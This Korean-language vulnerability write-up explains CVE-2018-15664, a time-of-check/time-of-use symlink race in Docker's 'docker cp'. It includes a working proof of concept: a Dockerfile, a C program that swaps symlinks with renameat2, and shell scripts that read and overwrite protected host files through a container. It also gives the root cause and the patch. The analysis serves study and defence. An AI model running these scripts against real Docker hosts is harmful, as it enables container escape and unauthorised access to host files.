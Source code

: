 # CVE-2018-15664

## CVE-2018-15664

### 1) 취약점 개요

|           취약점 조건(버전)           |           취약점 종류            |                         취약점 설명                          |
| :-----------------------------------: | :------------------------------: | :----------------------------------------------------------: |
| Docker Engine 17.06.0-ce ~ 18.06.1-ce | Path Traversal, Host File Access | docker cp 명령 중 FollowSymlinklnScope 함수 ⇒ 주어진 경로에 대한 심볼릭 링크가 걸려 있다면 최종적으로 가리키는 원본 파일의 절대 경로를 리턴 |

### 2) 배경지식

**TOC-TOU (Time Of Check-Time Of Use)**

어떠한 자원을 사용하기 전에 자원의 상태를 확인하는 로직(조건-조건에 대한 결과) 사이에서 주로 발생하는 race condition bug

**docker 명령어**

- docker cp : 호스트와 도커 컨테이너 사이에서 파일을 이동
- docker build <디렉터리> : 해당하는 디렉터리의 파일들을 사용해 도커 이미지 빌드

**renameat2 함수**

두 개의 이름의 디렉터리(심볼릭 링크)에 대하여 서로의 이름을 바꿔주는 함수

### 3) Exploit 재연

① 환경 세팅 (docker 설치): 17.06.0-ce ~ 18.06.1-ce 버전의 Docker Engine 설치

② 도커 이미지 빌드 (docker build)

```docker
# ubuntu 20.04 기반의 이미지

FROM ubuntu:20.04

# 이미지 구성

RUN apt-get update && apt-get install -y gcc

# Dockerfile과 같은 디렉터리에 있는 symlink_swap.c 파일을 컨테이너내에 복사

COPY symlink_swap.c /symlink_swap.c

# 컨테이너 내부의 symlink_swap.c 코드 파일을 컴파일

RUN gcc -o /symlink_swap /symlink_swap.c

# Entrypoint를 symlink_swap으로 지정

ENTRYPOINT ["/symlink_swap"]
```

△ Dockerfile

```c
#define _GNU_SOURCE
#include <unistd.h>
#include <sys/stat.h>
#include <stdio.h>
#include <fcntl.h>

int main()
{
	symlink("/", "/totally_safe_path");
	// ~~"/"에 존재하는 파일에 대한 심볼릭 링크 파일을 /totally_safe_path에 생성한다.
// -> "/" (root dir)에 대한 심볼릭 링크를 "/totally_safe_path"에 연결한다.

mkdir("/totally_safe_path-stashed", 0755);

// 디렉터리 생성

while (1)

renameat2(AT_FDCWD, "/totally_safe_path", AT_FDCWD, "/totally_safe_path-stashed", RENAME_EXCHANGE);

// systemcall -> 파일 이름 변경

// (flag) RENAME_EXCHANGE: old_path(/totally_safe_path)와 new_path(/totally_safe_path-stashed)를 바꾼다. 다만 두 개의 경로명은 서로 다른 종류여야 한다. (ex. non-empty / empty directory 또는 symbolic link)

return 0;

}
```

△ symlink_swap.c 코드

1. symlink("/", "/totally_safe_path")
   
2. mkdir("/totally_safe_path-stashed", 0755)
   
3. renameat2
   
    

이와 같은 방식으로 “/” (root directory)를 가리키는 디렉터리가 계속해서 바뀐다.

ⓒ TOC-TOU 유도 스크립트 작성 (docker cp)

```c
#!/bin/sh
# Build and run the image.
docker build -t poc .
container_id=$(docker run --rm -d poc)

# Now continually try to copy the files.
i=0
while [ $i -lt 500 ]
do
mkdir "ex${i}"
docker cp "${container_id}:/totally_safe_path/flag01" "ex${i}/out"
# (host) /var/lib/docker/overlay2/dfsvmsagfjiewrw32/totally_safe_path/flag01
# (container) renameat2 반복 실행 중
i=$(($i + 1))
done

chmod 0644 ex*/out
```

△ read.sh (호스트 파일 시스템 상의 읽기 권한이 없는 파일에 적힌 문자열을 읽음)

```bash
#!/bin/sh
# Build and run the image.
docker build -t poc .
container_id=$(docker run --rm -d poc)
echo "SUCCESS -- HOST FILE CHANGED" > localpath

# Now continually try to copy the files.
i=0
while [ $i -lt 500 ]
do
docker cp localpath "${container_id}:/totally_safe_path/flag02"
i=$(($i + 1))
done
```

△ write.sh (호스트 파일 시스템 상의 쓰기 권한이 없는 파일의 문자열 쓰기)

**4) Root Cause**

“docker cp” 명령을 사용하며 내부적으로 호출되는 FollowSymlinkInScope 함수에서 TOC-TOU가 발생할 수 있는 로직이 존재함.

```c
...
// FollowSymlinkInScope is a wrapper around evalSymlinksInScope that returns an
// absolute path. This function handles paths in a platform-agnostic manner.
func FollowSymlinkInScope(path, root string) (string, error) {
	path, err := filepath.Abs(filepath.FromSlash(path))
	if err != nil {
		return "", err
	}
	root, err = filepath.Abs(filepath.FromSlash(root))
	if err != nil {
		return "", err
	}
	return evalSymlinksInScope(path, root)
}

...
```

FollowSymlinkInScope 함수에서는 원본 파일의 절대 경로를 확인한 후, 해당 파일에 대한 작업을 시도한다. 이 때 발생하는 시간차를 이용해 원본 파일에 심볼릭 링크를 걸고, 컨테이너 바깥에 위치한 파일을 가리킬 수 있도록 한다.

다시 말해 docker cp 명령의 인자값으로 전달한 컨테이너 내부 경로에 대한 확인을 하고 실제 그 경로의 값을 가져오는 사이의 시간차를 활용해 컨테이너과 호스트 사이의 경계를 허물게 한다.

### 5) 패치 내용

패치 전 docker cp 명령을 사용할 때에는 복사하는 파일/폴더를 tar 압축 후 destination에서 untar한다.

docker cp에서 tar, untar 명령을 수행하는 과정에서 컨테이너 내부의 root directory로 chroot 한 채로 복사를 하도록 패치하며 컨테이너 루트의 상위 디렉터리로 연결된 심볼릭 링크가 불가능하도록 한다.

### 6) 참고자료

https://www.cvedetails.com/cve/CVE-2018-15664/

https://github.com/cyphar/filepath-securejoin

https://blog.alyac.co.kr/2342

https://core-research-team.github.io/2021-04-01/Docker-Race-Condition-Vulnerability-CVE-2018-15664

▼ 특정 버전의 Docker 다운로드

https://download.docker.com/linux/static/stable/x86_64/

https://skylit.tistory.com/415

▼ FollowSymlinkInScope 함수 정의 부분

https://github.com/moby/moby/blob/17.05.x/pkg/symlink/fs.go